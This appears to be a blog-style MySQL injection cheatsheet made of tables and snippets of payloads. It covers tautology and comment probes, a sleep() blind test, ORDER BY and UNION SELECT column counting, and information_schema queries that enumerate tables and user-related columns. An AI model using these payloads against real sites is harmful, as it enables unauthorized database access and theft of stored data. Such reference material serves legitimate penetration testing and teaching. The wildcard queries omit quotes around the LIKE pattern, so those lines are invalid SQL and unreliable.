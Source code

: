 ```yaml
---
title: MySQL Injection Cheatsheet
date: 2020-07-29 13:10:00
tags: [sqli, sql injection, cheatsheet, web attacks]
---
```


# MySQL Injection cheatsheet

## Testing checklist 

| Name | Character | Function |
| ------ | ----------- | ---------- |
| Single quote | `'` | String terminator |
| Semi colon | `;` | Query terminator |
| Comment | `-- -` | Removes the rest of the query |
| Comment | `#` | Removes the rest of the query |
| Comment | `/*comment this*/` | Can be placed anywhere in a query, used for bypassing weak filters |
| Single quote with a comment | `'-- -` | End a string and remove rest of the query |
| Single quote, semi colon and a comment | `';-- -` | End a string, end query, and remove rest of the query |
| OR operator | `OR 1=1-- -` | For integers, `true` test |
| OR operator | `OR 1=2-- -` | For integers, `false` test |
| OR operator | `' OR '1'='1'-- -` | For strings, `test` test |
| AND operator | `AND 1=1-- -` | For integers, `true` test |
| AND operator | `AND 1=2-- -` | For integers, `false` test |
| AND operator | `' AND '1'='1'-- -` | For strings, `true` test |
| Sleep function | `OR sleep(5)-- -` | Blind test |

## Functions

| Function | Description |
| ------ | ------------- |
| `database()` | Get the name of the working database | 
| `user()` | Get the name of the user operating on the working database |
| `version()` | MySQL version | 
| `concat()` | Concatenate two or more strings per row | 
| `group_concat()` | Concatenate all the strings in one row | 
| `substring('string'/<column_name>,<offset>,<length>)` | Get a part of the value of a string or column |
| `ord()` | Convert the value to ordinal (decimal) | 


## Number of Columns

| Method | Description | 
| ------ | ---------- |
| `ORDER BY 3-- -` | For numbers. If column index provided exceeds the number of column present in the table, there will be an error |
| `' ORDER BY 3-- -` | For string. If column index provided exceeds the number of column present in the table, there will be an error |
| ` UNION SELECT 1,2,3-- -` | For numbers. It will throw an error till right number of columns haven't been "SELECT"ed |

## Database Contents
*Works with UNION queries*

Get the tables present in your working database:
``` SQL
SELECT table_name FROM information_schema.tables WHERE table_schema=database()
```

Once you get the tables, you can get the columns from those tables:

``` SQL
SELECT column_name FROM information_schema.columns WHERE table_name='x'
```

## Wildcards:

Get any table which consists the term "user" anywhere:

``` SQL
SELECT table_name FROM information_schema.tables WHERE table_name like %user%
```

Get any column which consists the term "user" in it:

``` SQL
SELECT column_name FROM information_schema.columns WHERE column_name like %user%;

/* Get columns along with its respective tables */
SELECT GROUP_CONCAT(column_name,0x3a,table_name,'\r\n') FROM information_schema.columns WHERE column_name like %user%;
```


## Fin 

If you found some mistake, or would like me to add something, feel free to contact me :)

Other DB SQL injection cheatsheets will be added soon.